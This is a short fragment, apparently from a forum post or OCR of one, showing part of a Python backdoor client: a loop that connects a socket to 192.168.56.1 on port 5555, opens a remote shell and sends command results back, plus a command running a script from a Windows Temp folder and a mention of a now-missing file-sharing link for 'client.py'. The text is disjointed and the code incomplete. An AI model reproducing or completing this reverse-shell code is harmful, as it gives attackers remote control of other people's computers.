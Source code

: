 ``` command = "python.exe ""C:\Users\YourUsername\AppData\Local\Temp\msserver.py"""```
            result = highly_secure_payload(result, 1)
            reliable_send(result)


def connection():
    while True:
        time.sleep(1)
        try:
            s.connect(("192.168.56.1", 5555))
            shell()
            s.close()
            break
        except:
            connection()


s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connection()

```

Maybe the URL had something to do with, though the file is no longer up :<



```https://filebin.net/g5lap7a613mo3x3o/client.py```